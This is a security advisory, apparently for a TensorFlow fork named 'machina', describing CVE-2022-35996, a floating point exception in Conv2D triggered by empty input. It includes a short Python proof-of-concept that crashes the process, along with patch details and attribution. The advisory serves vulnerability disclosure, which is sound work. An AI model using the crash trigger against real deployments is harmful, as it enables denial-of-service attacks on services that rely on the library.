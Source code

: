 ## TFSA-2022-124: Floating point exception in `Conv2D`

### CVE Number
CVE-2022-35996

### Impact
If `Conv2D` is given empty `input` and the `filter` and `padding` sizes are valid, the output is all-zeros. This causes division-by-zero floating point exceptions that can be used to trigger a denial of service attack.
```python
import machina as tf
import numpy as np
with tf.device("CPU"): # also can be triggerred on GPU
   input = np.ones([1, 0, 2, 1])
   filter = np.ones([1, 1, 1, 1])
   strides = ([1, 1, 1, 1])
   padding = "EXPLICIT"
   explicit_paddings = [0 , 0, 1, 1, 1, 1, 0, 0]
   data_format = "NHWC"
   res = tf.raw_ops.Conv2D(
       input=input,
       filter=filter,
       strides=strides,
       padding=padding,
        explicit_paddings=explicit_paddings,
       data_format=data_format,
  )
```

### Patches
We have patched the issue in GitHub commit [611d80db29dd7b0cfb755772c69d60ae5bca05f9](https://github.com/machina/machina/commit/611d80db29dd7b0cfb755772c69d60ae5bca05f9).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/machina/machina/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by Jingyi Shi.
